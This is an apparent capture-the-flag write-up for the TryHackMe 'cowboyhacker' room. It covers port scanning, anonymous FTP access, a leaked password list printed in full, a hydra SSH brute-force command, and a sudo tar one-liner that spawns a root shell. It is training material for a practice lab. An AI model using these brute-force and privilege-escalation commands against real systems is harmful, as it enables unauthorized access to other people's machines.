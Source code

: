 # WRITE-UP COWBOYHACKER

![homepage](files/ctf-homepage.png)

[Click here to access the room](https://tryhackme.com/room/cowboyhacker#)
---

## QUESTION 01: Find open ports on the machine

> Well, just do a simple scan. You can use any port scan tool you prefer. I gonna use nmap.

> I like save nmap scan in other file, but if you don't like just run `nmap -A [target]`

**STEP 01:** Run `nmap -A [target] > file.txt`

In my case:
  `nmap -A 10.10.81.241 > scan.txt`

Result:

  ![scan](files/nmap-scan.png)

  * Nice, three ports are open.
    * 21 `ftp`
    * 22 `ssh`
    * 80 `http`

  * The FTP have Anonymous login allowed, interesting!

  * And we have a website running on port 80 with Apache 2.4.18

  <br>

  ![website](files/website.png)

  Always check the source code, it may have sensitive information commented out.

  ![source](files/source-webpage.png)

  But in this case, i found nothing relevant. Only possible usernames to log into ssh.

----

  ## QUESTION 02: Who wrote the task list

  > Well, reading the short excerpt from the website I noticed that there is a character named Ein. It didn't work :(

  But remember, Nmap showed us that there is an FTP server with Anonymous login enabled. So let's see what we found.

  **STEP 01:** log as anonymous on ftp server with this command: `ftp [target]` and type `anonymous` as username.

  In my case:

  ![fpt-login](files/ftp-login.png)

  **STEP 02:** We found two files just running `ls`. Now type `get [file]` to download to your local machine.

  Content of `task.txt`:

  ~~~
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.

  -lin
  ~~~

> Oh, maybe lin wrote the task list

Content of `locks.txt`:

~~~
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
~~~

> Strange. Looks like a file with possible passwords.

v

-----

## QUESTION 03: What service can you bruteforce with the text file found?

## QUESTION 04: What is the users password?

Now we have an username, password list and a ssh service. Next step is bruteforce ssh with these credentials. I will use `hydra` but you can use another tool you prefer.

**STEP 01:** Bruteforce ssh with hydra using this command: `hydra -l lin -P locks.txt ssh://target`

 In my case:

 `hydra -l lin -P locks.txt ssh://10.10.81.241`

![hydraresult](files/ssh-bruteforce-hydra.png)

> We found!

**With the information obtained so far, you are already able to answer question 03 and question 04.**

-----

## QUESTION 05: user.txt

Let's login ssh with the credentials.
![loginssh](files/login-ssh.png)

> Boom! We are on the server

![user](files/usertxt.png)

Running `ls -la` we found the flag user.txt
> Pretty easy flag

**With the information obtained so far, you are already able to answer question 05.**

----

## QUESTION 06: root.txt

Now we have to escalate privilege and get the last flag root.txt.

After a long time looking through the files and searching for possible users, I thought I would use the linpeas script to automate my process (You can download it [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)), it is a very powerful script.

But I had forgotten to see what our current user can do. So i run `sudo -l`

![tar](files/allowed-tar.png)

We can use **tar**

A fast search on Google and i found on [GTFFobins site](https://gtfobins.github.io/gtfobins/tar/) this code:

![privilege-tar](files/tar-for-root.png)

~~~
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~

Now we are root. Just take the flag in `/root/root.txt`

![root](files/rootxt.png)
